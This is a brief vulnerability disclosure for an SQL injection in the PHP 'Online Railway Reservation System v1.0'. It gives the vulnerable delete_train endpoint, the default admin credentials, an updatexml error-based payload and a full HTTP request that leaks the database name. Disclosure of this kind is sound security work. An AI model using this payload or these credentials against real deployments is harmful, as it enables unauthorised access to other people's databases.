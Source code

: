 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/classes/Master.php?f=delete_train

Vulnerability location: /orrs/classes/Master.php?f=delete_train, id=

Current database name: orrs_db,length is 7

[+] Payload:  id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /orrs/classes/Master.php?f=delete_train HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/orrs/admin/?page=trains
Content-Length: 65
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/172340830-2bafad75-da64-4508-98b4-bea22b0717dd.png)

